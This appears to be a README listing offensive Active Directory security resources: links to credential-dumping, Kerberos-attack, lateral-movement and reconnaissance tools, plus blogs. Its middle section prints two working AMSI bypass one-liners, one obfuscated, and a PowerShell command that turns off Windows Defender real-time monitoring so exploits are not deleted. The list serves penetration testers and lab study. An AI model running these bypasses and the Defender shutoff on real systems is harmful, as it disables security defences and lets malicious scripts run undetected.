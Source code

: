 # AD-Security-Resources

Bypass Execution Policy : 
https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/

Huge list of AD security resources available below :
  https://adsecurity.org/
  https://www.harmj0y.net/
  https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html
  https://beta.hackndo.com/


Setting up active directory lab :  https://github.com/outflanknl/Invoke-ADLabDeployer 

Bypassing Powershell execution policy issues : </H2>

Github links - AMSI Bypass for loading malicious scripts:
  <p>  https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell </p>
  Something that works quickly 
  <p>   sETItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} ) </p>

This works !!!
(Thanks - https://burmat.gitbook.io/security/hacking/domain-exploitation#user-and-computers-with-unconstrained-delegation)
[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)

Detailed Article on this subject : https://blog.f-secure.com/hunting-for-amsi-bypasses/


Constrained Language Mode : 
Constrained Language consists of a number of restrictions that limit unconstrained code execution on a locked-down system.  (https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/)

Check the below for bypassing this 
https://github.com/padovah4ck/PSByPassCLM
https://chickenpwny.github.io/concepts/bypass/



Turning of Windows Defender - Real Time Monitoring (for not letting exploits to be deleted):
Set-MpPreference -DisableRealtimeMonitoring $true

<H2> Recon of active directory objects :</h2>
<p>PowerView / Powersploit: https://github.com/PowerShellMafia/PowerSploit</p>

AD Module :
  https://github.com/samratashok/ADModule

Bloodhound
  https://github.com/BloodHoundAD/SharpHound
  https://github.com/BloodHoundAD/BloodHound

Lateral Movement Automation :
  https://github.com/GoFetchAD/GoFetch

Credential Dumping for all attacks (PTH, Kerberoasting, Golden Ticket Attack, Silver Ticket Attack, Skeleton Key Attack:
Mimikatz : https://github.com/gentilkiwi/mimikatz

Spraykatz - Credentials gathering tool automating remote procdump and parse of lsass process
  https://github.com/aas-n/spraykatz

Mimikittenz - Reading credentians from process :
  https://github.com/putterpanda/mimikittenz

Benjamin Delpy's Kekeo 
  https://github.com/gentilkiwi/kekeo/

Vincent LE TOUX's MakeMeEnterpriseAdmin
  https://github.com/vletoux/MakeMeEnterpriseAdmin

Rubeus :
  https://github.com/GhostPack/Rubeus

<H2> Pingcastle - AD Security :
  https://github.com/vletoux/pingcastle



